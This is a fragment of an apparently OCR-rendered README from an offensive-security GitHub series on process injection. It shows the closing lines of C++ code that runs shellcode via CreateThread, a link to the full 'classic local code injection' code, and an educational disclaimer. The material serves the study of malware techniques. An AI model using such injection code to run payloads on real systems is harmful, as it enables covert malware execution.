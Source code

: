 ```cpp
     // run shellcode
	hthread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)my_sc_mem, 0, 0, 0);
	if (hthread != NULL) {
		WaitForSingleObject(hthread, 500);
		CloseHandle(hthread);
		return 0;
	}
  
    return 0;
}
```

## Demonstration

![](Assets/cci.gif)

Find Complete Code Click Here: [Offensive-Panda/ProcessInjectionTechniques](https://github.com/Offensive-Panda/ProcessInjectionTechniques/tree/main/Classic_Code_Injection_Local/Classic_Code_Injection_Local)

### Disclaimer
The content provided on this series is for educational and informational purposes only. It is intended to help users understand cybersecurity concepts and techniques for improving security defenses!
